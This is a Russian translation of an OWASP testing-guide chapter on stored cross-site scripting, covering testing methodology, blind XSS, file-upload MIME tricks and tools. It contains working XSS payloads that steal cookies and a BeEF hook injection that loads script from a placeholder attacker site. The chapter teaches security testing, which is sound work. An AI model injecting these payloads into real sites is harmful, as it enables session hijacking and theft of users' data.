



# Хранимый межсайтовый скриптинг (Stored XSS)

| ID |
| --- |
| WSTG-INJT-02 |

## Резюме

Хранимое [межсайтовое выполнение сценариев (Stored Cross-site Scripting, XSS)](https://owasp.org/www-community/attacks/xss/) является наиболее опасной разновидностью межсайтового скриптинга. Веб-приложения, позволяющие пользователям сохранять данные, потенциально подвержены данному типу атак. В этой главе приводятся примеры внедрения хранимого межсайтового скриптинга и соответствующие сценарии эксплуатации.

Хранимый XSS возникает, когда веб-приложение собирает от пользователя входные данные, которые могут быть вредоносными, и сохраняет их в хранилище данных для последующего использования. Сохраняемые данные не фильтруются должным образом. В результате вредоносные данные отображаются как легитимная часть сайта и выполняются в браузере пользователя с привилегиями веб-приложения. Поскольку эта уязвимость обычно требует как минимум двух запросов к приложению, ее также называют XSS второго порядка (second-order XSS).

Данная уязвимость может использоваться для проведения целого ряда атак на браузер, включая:

- Перехват сессии и управление браузером другого пользователя (browser hijacking)
- Перехват конфиденциальной информации, просматриваемой пользователями приложения
- Псевдодефейс приложения (pseudo defacement)
- Сканирование портов внутренних хостов («внутренних» по отношению к пользователям веб-приложения)
- Направленную доставку браузерных эксплойтов
- Другие вредоносные действия

Хранимый XSS не требует перехода жертвы по вредоносной ссылке — эксплуатация происходит автоматически при посещении пользователем страницы, содержащей сохраненный XSS-код. Стандартный сценарий атаки с использованием Stored XSS включает следующие фазы:

- Злоумышленник сохраняет вредоносный код на уязвимой странице
- Жертва проходит аутентификацию в приложении
- Жертва просматривает уязвимую страницу
- Вредоносный код выполняется браузером жертвы

Атаки подобного типа также могут эксплуатироваться с помощью фреймворков для эксплуатации браузеров, таких как [BeEF](https://beefproject.com). Подобные инструменты позволяют разрабатывать сложные эксплойты на JavaScript.

Хранимый XSS особенно опасен в разделах приложения, доступных привилегированным пользователям. Когда администратор открывает уязвимую страницу, атака автоматически выполняется в его браузере. Это может привести к компрометации критически важных данных, таких как токены авторизации сессий.

## Цели тестирования

- Идентифицировать сохраняемые входные данные, отображаемые на стороне клиента.
- Оценить входные данные, которые они принимают, и кодирование, применяемое при выводе (если таковое имеется).

## Методика тестирования

### Тестирование методом «черного ящика»

Процесс выявления уязвимостей хранимого XSS аналогичен процессу, описанному для [отраженного XSS](01.%20Reflected%20Cross%20Site%20Scripting.md).

#### Формы ввода

Первый шаг заключается в выявлении всех точек, в которых пользовательский ввод сохраняется на бэкенде, а затем отображается приложением. Типичные примеры сохраняемых пользовательских данных можно найти в следующих компонентах:

- Страница профиля пользователя: приложение позволяет пользователю редактировать/изменять данные профиля, такие как имя, фамилия, никнейм, аватар, фотография, адрес и т. д.
- Корзина покупок: приложение позволяет пользователю сохранять товары в корзину для последующего просмотра.
- Файловый менеджер: приложение, позволяющее загружать файлы.
- Настройки/предпочтения приложения: функционал, позволяющий пользователю задавать пользовательские параметры.
- Форум/доска сообщений: приложение, обеспечивающее обмен сообщениями между пользователями.
- Блог: если функционал блога позволяет пользователям оставлять комментарии.
- Журналы регистрации (logs): если приложение сохраняет часть пользовательского ввода в лог-файлах.

> Примечание: Сюда также могут относиться пути URL, файлы cookie, HTTP-заголовки и другие менее очевидные типы пользовательского ввода, а также параметры GET и POST.

#### Анализ HTML-кода

Данные, сохраняемые приложением, обычно выводятся внутри HTML-тегов, однако они также могут присутствовать в составе содержимого JavaScript. На этом этапе принципиально важно понять, сохраняются ли входные данные и как именно они позиционируются в контексте страницы. В отличие от отраженного XSS, пентестеру также необходимо исследовать любые внеполосные каналы (out-of-band channels), по которым приложение получает и сохраняет пользовательский ввод — например, электронную почту или интеграции с внешними сервисами.

> Примечание: Все разделы приложения, доступные администраторам, должны быть протестированы на наличие любых данных, отправленных пользователями.

**Пример**: Сохраняемые данные электронной почты в `index2.php`


*Figure 4.7.2-1: Stored Input Example*

HTML-код `index2.php`, где располагается значение email:

```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" />
```

В этом случае тестировщику необходимо найти способ внедрить код за пределы тега `<input>`, как показано ниже:

```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- />
```

#### Хранимый XSS (Stored XSS)

Данный этап включает проверку механизмов валидации и фильтрации входных данных в приложении. Базовые примеры инъекций в этом сценарии:

- `aaa@aa.com&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;`
- `aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E`

Убедитесь, что входные данные отправляются через приложение. Обычно для этого требуется отключить JavaScript (если реализованы средства контроля безопасности на стороне клиента) или модифицировать HTTP-запрос с помощью веб-прокси. Также важно протестировать одну и ту же инъекцию как в GET-, так и в POST-запросах. Указанная выше инъекция приводит к появлению всплывающего окна со значениями cookie.

> \
> *Figure 4.7.2-2: Stored Input Example*
>
> HTML-код после внедрения инъекции:
>
> ```html
> <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
> ```
>
> Данные сохраняются, и полезная нагрузка XSS выполняется браузером при повторной загрузке страницы. Если входные данные экранируются приложением, тестировщикам следует проверить наличие XSS-фильтров. Например, если строка "SCRIPT" заменяется пробелом или NULL-байтом, это может быть признаком работы XSS-фильтрации. Существует множество техник обхода входных фильтров (см. главу [отраженный XSS](01.%20Reflected%20Cross%20Site%20Scripting.md)). Настоятельно рекомендуется обращаться к руководству [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) и другим шпаргалкам по XSS, содержащим обширный перечень XSS-атак и способов обхода фильтрации. Более подробную информацию см. в разделах исследовательских отчетов и инструментов.

#### Использование хранимой XSS с помощью BeEF

Хранимый XSS может эксплуатироваться с помощью продвинутых фреймворков для эксплуатации на базе JavaScript, таких как [BeEF](https://beefproject.com).

Типичный сценарий эксплуатации с помощью BeEF включает:

- Внедрение JavaScript-хука (hook), устанавливающего связь с браузерным фреймворком атакующего (BeEF)
- Ожидание, пока пользователь приложения откроет уязвимую страницу, на которой отображаются сохраненные данные
- Получение контроля над браузером пользователя через консоль BeEF

JavaScript-хук может быть внедрен путем эксплуатации XSS-уязвимости в веб-приложении.

**Пример**: Внедрение BeEF в `index2.php`:

```html
aaa@aa.com"><script src=https://attackersite/hook.js></script>
```

Когда пользователь загружает страницу `index2.php`, скрипт `hook.js` выполняется браузером. После этого появляется возможность перехватывать cookie, делать снимки экрана пользователя, считывать содержимое буфера обмена и инициировать сложные цепочки XSS-атак.

> \
> *Figure 4.7.2-3: Beef Injection Example*
>
> Данная атака особенно эффективна на уязвимых страницах, которые просматриваются большим числом пользователей с различными уровнями привилегий.

#### Загрузка файлов

Если веб-приложение поддерживает загрузку файлов, необходимо проверить возможность загрузки HTML-контента. Например, если разрешена загрузка HTML- или TXT-файлов, полезная нагрузка XSS может быть внедрена в загружаемый файл. Пентестеру также следует убедиться, позволяет ли загрузка файлов задавать произвольные MIME-типы.

Рассмотрим следующий HTTP POST-запрос на загрузку файла:

```http
POST /fileupload.aspx HTTP/1.1
[…]
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```

Этот недостаток архитектуры может эксплуатироваться в атаках, связанных с некорректной обработкой MIME-типов браузером (MIME mishandling). Например, безобидные на первый взгляд файлы JPG и GIF могут содержать полезную нагрузку XSS, выполняемую при их загрузке браузером. Это возможно, если MIME-тип для изображения (например, `image/gif`) может быть заменен на `text/html`. В этом случае файл будет обработан клиентским браузером как HTML.

Сфальсифицированный HTTP POST-запрос:

```html
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
Content-Type: text/html

<script>alert(document.cookie)</script>
```

Следует также учитывать, что устаревшие браузеры, такие как Internet Explorer, могут обрабатывать MIME-типы иначе, чем Firefox, Chrome или Edge. Например, Internet Explorer обрабатывал некоторые TXT-файлы, содержавшие разметку HTML, как HTML-контент. Дополнительную информацию об обработке MIME-типов см. в разделе исследовательских отчетов в конце этой главы.

### Слепой межсайтовый скриптинг

Слепой межсайтовый скриптинг (Blind Cross-site Scripting) представляет собой разновидность хранимого XSS. Как правило, он возникает, когда полезная нагрузка атакующего сохраняется на сервере/инфраструктуре и впоследствии отражается жертве из интерфейса бэкенд-приложения. Например, в формах обратной связи атакующий может отправить вредоносную нагрузку через форму, и как только администратор или оператор внутренней системы откроет отправленные данные через интерфейс бэкенда, полезная нагрузка выполнится. Слепой межсайтовый скриптинг трудно подтвердить в реальных условиях, однако одним из лучших инструментов для этого является [XSS Hunter](https://xsshunter.com/).

> Примечание: Тестировщикам следует тщательно оценивать последствия для конфиденциальности при использовании публичных или сторонних сервисов в процессе проведения тестов на безопасность. (См. [#tools](#инструменты).)

### Тестирование методом «серого ящика»

Тестирование методом «серого ящика» (gray-box testing) аналогично тестированию «черного ящика». При тестировании методом «серого ящика» пентестер обладает частичными знаниями о приложении. В этом случае пентестеру могут быть известны сведения о пользовательском вводе, средствах валидации входных данных и механизмах хранения данных.

В зависимости от доступной информации тестировщикам обычно рекомендуется проверять, как пользовательский ввод обрабатывается приложением, а затем сохраняется во внутренней системе (бэкенде). Рекомендуются следующие шаги:

- Использовать фронтенд приложения и ввести данные, содержащие специальные/недопустимые символы
- Проанализировать ответ(ы) приложения
- Определить наличие механизмов валидации входных данных
- Получить доступ к бэкенд-системе и проверить, сохранены ли входные данные и каким именно образом
- Проанализировать исходный код и понять, как сохраненные входные данные отображаются приложением

Если доступен исходный код (как при тестировании методом «белого ящика» `[white-box testing]`), необходимо проанализировать все переменные, используемые во входных формах. В частности, такие языки программирования, как PHP, ASP и JSP, используют предопределенные переменные/функции для сохранения входных данных из HTTP-запросов GET и POST.

В следующей таблице приведены некоторые специальные переменные и функции, на которые следует обратить внимание при анализе исходного кода:

| **PHP**        | **ASP**           |  **JSP**         |
|----------------|-------------------|------------------|
| `$_GET` - HTTP GET variables  | `Request.QueryString` - HTTP GET | `doGet`, `doPost` servlets - HTTP GET and POST |
| `$_POST` - HTTP POST variables| `Request.Form` - HTTP POST | `request.getParameter` - HTTP GET/POST variables |
| `$_REQUEST` - HTTP POST, GET and COOKIE variables | `Server.CreateObject` - used to upload files | |
| `$_FILES` - HTTP File Upload variables | | |
| `$_SERVER` - HTTP headers | | |

> Примечание: Приведенная выше таблица представляет собой лишь краткую сводку наиболее важных параметров, однако анализу подлежат все параметры пользовательского ввода.

## Инструменты

- [Hackvertor](https://hackvertor.co.uk/) — онлайн-инструмент, поддерживающий множество видов кодирования и обфускации JavaScript (или любых строковых данных).
- [BeEF](https://beefproject.com) — фреймворк для эксплуатации браузеров (Browser Exploitation Framework). Профессиональный инструмент для демонстрации воздействия уязвимостей браузеров в реальном времени.
- [Burp Proxy](https://portswigger.net/burp/) — интерактивный HTTP/S-прокси-сервер для атаки и тестирования веб-приложений.
- [XSS Assistant](https://www.greasespot.net/) — скрипт Greasemonkey, позволяющий легко тестировать любые веб-приложения на наличие дефектов межсайтового скриптинга.
- [Zed Attack Proxy (ZAP)](https://www.zaproxy.org) — интерактивный HTTP/S-прокси-сервер для атаки и тестирования веб-приложений со встроенным сканером.
- [XSS Hunter Portable](https://github.com/mandatoryprogrammer/xsshunter) — инструмент XSS Hunter находит любые разновидности межсайтового скриптинга, включая часто пропускаемый слепой XSS (blind XSS).

## Ссылки и материалы

### Ресурсы OWASP

- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Книги

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Технические документы (Whitepapers)

- [CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests"](https://www.sei.cmu.edu/documents/507/2000_019_001_496188.pdf)
- [Amit Klein: "Cross-site Scripting Explained"](https://courses.csail.mit.edu/6.857/2009/handouts/css-explained.pdf)
- [CGISecurity.com: "The Cross Site Scripting FAQ"](https://www.cgisecurity.com/xss-faq.html)
